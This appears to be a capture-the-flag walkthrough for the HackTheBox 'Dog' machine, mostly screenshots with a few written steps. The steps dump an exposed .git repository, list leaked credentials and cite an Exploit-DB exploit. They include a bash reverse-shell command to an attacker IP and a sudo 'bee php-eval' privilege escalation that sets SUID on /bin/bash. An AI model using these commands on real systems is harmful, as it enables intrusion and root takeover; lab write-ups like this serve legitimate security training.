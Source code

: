 1.
![image](https://github.com/user-attachments/assets/c61f1343-5f7a-4f18-b698-7034aa7e0666)
2.
![image](https://github.com/user-attachments/assets/ac4e6fe5-3915-4bfe-a81c-e8bb1b2a4c6f)
3.
![image](https://github.com/user-attachments/assets/bebdadb2-fa84-4716-a0ea-1bb175c24a73)
4.
![image](https://github.com/user-attachments/assets/4369ed99-f7db-48be-b09f-a2b4596b4354)
5.
![image](https://github.com/user-attachments/assets/d7097385-ba66-4894-88d2-83dabe0accb4)
![image](https://github.com/user-attachments/assets/8217a6ab-57c9-4cc6-b372-e9732833b5b1)
6. git-dumper http://10.10.11.58/.git/
Creds -> root:BackDropJ2024DS2024
![image](https://github.com/user-attachments/assets/7a1f58ec-e8ca-4591-8696-0300ed3559a1)
7. Run git-show
tiffany@dog.htb
![image](https://github.com/user-attachments/assets/18e85612-85eb-4ee8-990e-d318cedb3926)
8.
![image](https://github.com/user-attachments/assets/c2d9237b-d0a9-4dd6-a5bf-4031bcf931c2)
9. https://www.exploit-db.com/exploits/52021
![image](https://github.com/user-attachments/assets/cdfe95f3-dd5f-4c20-9d30-d90d6d893171)
10.
![image](https://github.com/user-attachments/assets/2c3a9d12-7d7c-47df-a489-bf04c99da265)
11. 
![image](https://github.com/user-attachments/assets/f57f888a-9814-4f99-abc3-6eb6758db23d)
12.
![image](https://github.com/user-attachments/assets/94da38f9-1beb-49f4-9ddb-e9143d28e764)
13.
Command: bash -c "bash -i >& /dev/tcp/10.10.14.68/443 0>&1"
<img width="336" alt="image" src="https://github.com/user-attachments/assets/d26b5e1c-6734-453b-90fe-72725bfd4a8f" />
14.
![image](https://github.com/user-attachments/assets/42773726-afce-4f96-8c1f-d227e49bb138)
15.
![image](https://github.com/user-attachments/assets/dc421e1a-b830-4aee-bdfb-3e0e935c8c39)
16.
![image](https://github.com/user-attachments/assets/54033313-6907-423c-a3db-b63cdebf15d2)
17.
![image](https://github.com/user-attachments/assets/f0809951-2aed-4dfe-9624-82223d754e56)
18.
Command: sudo /usr/local/bin/bee --root=/var/www/html/ php-eval "system("whoami")"
<img width="518" alt="image" src="https://github.com/user-attachments/assets/e292cce6-f607-406b-8ecd-ce97c0d65a56" />
19.
Command: sudo /usr/local/bin/bee --root=/var/www/html/ php-eval "system('chmod u+s /bin/bash')"
![image](https://github.com/user-attachments/assets/5c2d3c71-3f6e-47ea-9dc9-b6c3025814a9)
20.
![image](https://github.com/user-attachments/assets/c7c1198e-26d1-4c67-b140-c03811cc6d0a)


























